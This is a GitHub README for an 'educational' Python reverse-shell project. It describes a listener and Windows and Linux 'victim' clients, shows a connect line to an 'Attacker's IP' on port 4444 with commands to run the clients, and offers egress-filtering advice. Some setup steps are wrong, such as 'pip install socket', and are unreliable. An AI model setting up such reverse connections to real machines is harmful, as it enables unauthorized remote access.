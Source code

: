 <!-- Badges (replace with real links if desired) -->

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](#license)
[![Language: Python](https://img.shields.io/badge/Language-Python-green.svg)](#project-structure)
[![Status: Educational](https://img.shields.io/badge/Status-Educational-orange.svg)](#abstract)

# 🐍 Webixly Reverse Shell — Educational Cybersecurity Project

**Author:** Aymen (Webixly)
**Repository:** Webixly-Reverce
**License:** MIT (see `LICENSE`)

---

## 📚 Table of Contents

1. [Abstract](#abstract)
2. [Overview](#overview)
3. [Project Structure](#project-structure)
4. [Design & Implementation](#design--implementation)
5. [Configuration (CHANGE IP)](#configuration-change-ip)
6. [Usage (Lab / Controlled Environment Only)](#usage-lab--controlled-environment-only)
7. [Defensive Guidance](#defensive-guidance)
8. [Academic & Ethical Considerations](#academic--ethical-considerations)
9. [Contribution & Citation](#contribution--citation)
10. [License](#license)
11. [Contact](#contact)

---

## Abstract

This repository contains a safe, educational simulation of the *reverse shell* concept intended for academic use and cybersecurity instruction. The implementation demonstrates basic client–server network mechanics while intentionally limiting functionality to a small set of predefined, non-destructive commands. The objective is to help students and researchers understand reverse-connection patterns and to illustrate defensive practices to mitigate their misuse.

> ⚠️ **Warning:** This project is for authorized educational use only. Do **not** run or deploy these examples against systems or networks for which you do not have explicit permission. Unauthorized use is illegal and unethical.

---

## Overview

A *reverse shell* is a technique in which a target host initiates an outbound connection to an external listener, enabling command exchange over that channel. While used legitimately in penetration testing and red-team exercises, reverse shells are also abused by attackers. This repository models the connection pattern safely — the server executes only a whitelist of Python handlers (no arbitrary OS shell commands).

---

## Project Structure

```
.
├── LICENSE
├── README.md
├── listner.py             # Server-side command dispatcher (listener)
├── windows_reverce.py     # Example client for Windows (simulated)
├── linux_reverce.py       # Example client for Linux (simulated)

```

> 🔧 Adjust filenames above to match your repository if they differ.

---

## Design & Implementation

### Server (listener / `listner.py`)

* Listens for incoming TCP connections on a configurable address and port.
* Accepts JSON-formatted requests such as:

```json
{"token": "<auth-token>", "cmd": "time", "args": {}}
```

* Validates an authentication token (optional but recommended).
* Dispatches only to a predefined, safe set of handlers (e.g., `hello`, `time`, `sysinfo`).
* Uses newline-terminated JSON for message framing to avoid partial-read ambiguities.
* Logs events using a structured logger (recommended).

### Client (`windows_reverce.py`, `linux_reverce.py`, `client_example.py`)

* Establishes an outbound TCP connection to the configured listener.
* Sends framed JSON requests and reads framed JSON responses.
* Intended exclusively for demonstration in a controlled lab environment.

### Security Decisions

* **No arbitrary shell execution**: prevents the repository from becoming a fully functional remote shell.
* **Message framing & size checks**: prevent partial-read issues and limit resource consumption.
* **Optional TLS**: recommended for any use outside isolated labs (`ssl.wrap_socket` / `ssl.SSLContext`).
* **Authentication token**: recommended to prevent unauthorized access in multi-user networks.

---

## Configuration (CHANGE IP)

> 🔁 **Important:** Before running any client (victim) script, you **must** update the target listener IP address (`HOST`) and, if used, the `PORT`. Failure to set the correct listener IP will cause the client to attempt to connect to the wrong host.

Open the client script you intend to run (`windows_reverce.py`, `linux_reverce.py`) and locate the `HOST`/`PORT` variables near the top of the file. Example:

```python
# windows_reverce.py (example snippet)
s.connect(("192.168.1.100", 4444))  #<<== Attacker's IP and Port 
```

**Steps**

1. Find the `HOST` variable and replace the placeholder with your listener/server IP (e.g., `192.168.10.128`).
2. Ensure `PORT` matches the port configured in `listner.py`.
3. Save the file and transfer it only to your controlled lab machine (if testing across VMs).

> 🔒 Tip: For lab automation, you can use environment variables instead of hardcoding:

```python
HOST = '192.168.10.128' # Attacker's IP address
PORT = 4444 # Attacker's listening port
```

This allows running:

```bash
REVERSE_HOST=192.168.10.128 REVERSE_PORT=4444 python3 windows_reverce.py
```

---

## Usage (Lab / Controlled Environment Only)

1. Create an isolated test environment (local VMs, isolated VLAN, or a single host with loopback testing).
2. Start the listener (on the host where `listner.py` runs):

```bash
pip install socket
python3 listner.py
```

3. On the test client machine (after updating `HOST` to point to the listener):

```bash
pip install socket
python3 windows_reverce.py
# or
pip install socket
python3 linux_reverce.py
```

> 🧪 Always operate within an environment you control. Do not run these scripts on production systems or public networks.

---

## Defensive Guidance

System administrators, students, and researchers should adopt the following controls to reduce the risk of reverse-shell exploitation:

* **Egress filtering:** restrict outbound connections by default; allow only required destinations and ports.
* **Host hardening:** enforce least privilege, disable interpreters where unnecessary, and use application allowlisting.
* **Network monitoring:** detect anomalous outbound connections (to uncommon ports or foreign hosts).
* **Endpoint detection:** use EDR/NDR solutions to identify process behaviors consistent with reverse shells.
* **Code review:** audit third-party and internal code for unsafe socket or subprocess usage.

---

## Academic & Ethical Considerations

This repository is intended for coursework, labs, and research under authorized conditions. Any unauthorized testing, scanning, or exploitation of systems you do not own or have permission to test is illegal. If you discover a vulnerability during legitimate testing, follow established responsible disclosure procedures.

---

## Contribution & Citation

Contributions that enhance the educational value (improved documentation, safe lab exercises, additional safe handlers) are welcome via issues or pull requests. If you cite this repository in academic work, please reference:

> A. (Aymen, Webixly), *Webixly Reverse Shell — Educational Cybersecurity Project*, GitHub repository, [https://github.com/webixly/Webixly-reverce](https://github.com/webixly/Webixly-reverce), 2025.

---

## License

This project is offered under the **MIT License**. See the `LICENSE` file for full terms.

---

## Contact

**Aymen (Webixly)**
GitHub: [https://github.com/webixly](https://github.com/webixly)
Email: [webiixly@gmail.com](mailto:webiixly@gmail.com)
